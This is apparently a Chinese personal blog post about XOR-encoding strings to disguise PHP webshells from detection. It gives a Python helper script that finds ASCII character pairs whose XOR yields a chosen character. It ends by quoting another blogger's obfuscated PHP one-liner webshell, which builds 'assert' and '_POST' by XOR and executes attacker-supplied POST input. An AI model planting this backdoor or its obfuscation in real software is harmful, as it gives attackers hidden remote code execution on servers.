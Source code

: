 ```yaml
---
title: Python string XOR
tags:
  - 学习
  - Python
categories:
  - 编程语言
copyright: true
abbrlink: b5a2e443
date: 2019-01-19 23:40:16
---
```


![](https://ae01.alicdn.com/kf/HTB15q1hawaH3KVjSZFjq6AFWpXau.jpg)
<!--more-->

这几天即刻群里的师傅们都讨论PHP shell如何改装从而存活下来，由于自己太菜只能，默默的听大佬们讨论不敢吱声 ~ Orz
听大佬们讨论，什么用`fopen`加载txt里php，`xor`Str 然后组合之类，听得我一脸懵逼的 0.0  特别是`xor`,完全不知道那是什么，去查了下php的手册，看完后对于php烂成没模样的我来说更加懵逼了~
后面在九世表哥的Blog翻到一篇 [**No character shell study**](https://422926799.github.io/2019/01/18/No-character-shell-study/) 

![](https://ae01.alicdn.com/kf/HTB1qSShaEuF3KVjSZK9q6zVtXXay.jpg)

>异或运算是指，取每个字符的ASCII，转成二进制再做运算，运二进制算结果转成ASCII，然后再转成字符串

看到这个，才算数明白了些。但是，怎么知道哪些字符串进行异或运算后会得到我想要的新的字符串呢？于是Google了一波，找到了【通过查ASCII表的符合和字符的异或，打印出所有可能的组合】的py脚本，把轮子扣下来小小修改了一下，唔，very good，这就是我想要的。
<!--more-->
代码如下：

```python
# -*- coding: utf-8 -*-

str1_AScII = range(32, 127)
str2_AScII = range(32, 127)
result_ASCII = range(32, 127)
print("[-] Waiting for create the dicts...")
dict_key = []
dict_value = []

for i in str1_AScII:
    for j in str2_AScII:
        if i ^ j in result_ASCII:
            dict_key.append((i, j, chr(i), chr(j)))
            dict_value.append(chr(i ^ j))

dicts = dict(zip(dict_key, dict_value))
print("[+] OK,The dicts is create")

YourStr = input("[-] Enter the string to be XORed: ")
print("\n[-] YourStr is : %s\n" % (YourStr))

for i in YourStr:
    count = 5
    print("============ " + "[" + i + "]" + " Can following composition ========")
    for k, v in dicts.items():
        if count != 0: # 只遍历输出前五个异或结果
            if v == "%s" % i:
                if (k[0] in result_ASCII) and (k[1] in result_ASCII):
                    print('"%s" ^ "%s"' % (k[2], k[3]))
                    count -= 1
            else:
                continue

```

![](https://ae01.alicdn.com/kf/HTB1A5ihavWG3KVjSZFg762TspXa6.png)

然后开始看着轮子造轮子。

然而，想造个好点的轮子，php太菜了弄了半天没弄出来，就弄了个最简单的一句话`xor` （晕）。。。。。。。

这里有个bug，拿九世表哥的造的小马，在本地环境上居然跑不起来，PHP直接是报错的。。。从此对php的好感又降了一级。 :P不知道是不是环境的问题，等后面再看了。

附上九世表哥的：

```php 
<?php
$_0 = ("!"^"@").("3"^"@").("3"^"@").("%"^"@").("2"^"@").("4"^"@"); /*assert*/
$_1 = '_'.(hex2bin("10")^"@").(hex2bin("0F")^"@").(hex2bin("13")^"@").(hex2bin("14")^"@");
$_2 = $$_1;
$_0($_2[_]);
?>
```